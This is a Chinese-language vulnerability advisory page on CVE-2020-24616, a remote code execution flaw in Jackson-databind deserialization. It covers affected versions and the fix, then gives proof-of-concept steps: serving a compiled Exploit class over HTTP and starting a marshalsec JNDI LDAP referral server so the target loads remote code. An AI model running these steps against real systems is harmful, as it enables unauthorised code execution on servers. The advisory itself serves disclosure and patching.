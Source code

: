```yaml
---
title: 'Jackson反序列化远程代码执行-CVE-2020-24616.assets'
date: Sat, 19 Sep 2020 07:49:40 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 漏洞描述

FasterXML Jackson发布了新的高危漏洞（漏洞编号：CVE-2020-24616），其官方团队发布了 jackson-databind 的新版本 2.9.10.6，其中修复了几个反序列化漏洞。 FasterXML Jackson是美国FasterXML公司的一款适用于Java的数据处理工具。jackson-databind是其中的一个具有数据绑定功能的组件。 FasterXML jackson-databind 2.9.10.6之前的版本中存在安全漏洞，该漏洞源于不安全的反序列化。远程攻击者可通过精心构造的恶意载荷利用该漏洞在系统执行任意代码。

#### 影响版本

jackson-databind < 2.9.10.6

#### 安全版本

jackson-databind 2.9.10.6 jackson-databind 2.10

#### 漏洞修复

1.建议用户将jackson-databind组件升级到安全版本。 https://github.com/FasterXML/jackson-databind/releases 2.在Jackson 2.10 中引入了Safe Default Typing白名单机制，可杜绝此类gadget的影响。

#### POC

把编译好的exploit.class放置在服务端 开启HTTP服务```
python3 -m http.server 8888 
```或者tomcat都行 启动LDAP```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer “http://x.x.x.x(服务端Ip):8888/#Exploit” 9999 

PS:poc中的端口号要和LDAP的对应 本地运行javaPOC ![](./Jackson反序列化远程代码执行-CVE-2020-24616.assets/ttt-1.png) [cve-2020-24616-poc-master](./Jackson反序列化远程代码执行-CVE-2020-24616.assets/cve-2020-24616-poc-master.zip)